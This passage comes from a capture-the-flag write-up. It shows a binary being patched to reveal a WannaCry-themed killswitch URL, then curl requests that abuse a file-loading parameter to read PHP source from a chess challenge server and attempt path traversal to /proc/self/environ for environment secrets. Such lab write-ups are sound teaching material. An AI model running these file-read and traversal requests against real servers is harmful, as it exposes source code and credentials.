 > Note: I'm patching this specific line because it was the first one that worked after a couple of tries with different ones.

{% figure(src="ep1ch2-patching.png", alt="Patching the instruction.") %}
    Patching the instruction. I've no clue what the hex code dropdown values mean, but I just chose the green ones.
{% end %}

I then exported the program as a **ELF binary** (not a shared object), and ran it.

```bash
$ ./wannacry-patched
https://wannacry-killswitch-dot-gweb-h4ck1ng-g00gl3.uc.r.appspot.com//almanacSegmentation fault (core dumped)
```

And we get the flag! (And a segfault, but that's fine.)

> Note: This flag won't work right now, because it's timestamp-based. But you can follow the same steps to get the flag for the current timestamp.

## Challenge 3

Back to a familiar screen - the chess challenge. But this time there's no conspicuous admin page, so more investigation is required.

It seems that the same method of source code exfiltration from the very first challenge still works, so let's try it here (Note: the domain has changed).

```bash
$ curl https://hackerchess2-web.h4ck.ctfcompetition.com/load_board.php -d "filename=index.php"
Loading Fen: <?php
session_save_path('/mnt/disks/sessions');
session_start();
...
```

It still works, so chances are that this is what we'll need to solve the problem. Looking at the source code, we see a lot of interesting stuff, including the below:

```php
if ($chess->inCheckmate()) {
    if ($chess->turn != "b") {
        echo '<h1>You lost! Game Over!</h1>';
    } else {
        echo "<h1>Winning against me won't help anymore. You need to get the flag from my envs." . "</h1>";
    }
}
```

It seems that there's no use in winning against the chess engine, so we need to find a way to get the flag from the environment variables. Can we use the same method that we used in the first challenge?

```bash
$ curl https://hackerchess2-web.h4ck.ctfcompetition.com/load_board.php -d "filename=../../../../../../proc/self/environ"
unsupported board
```
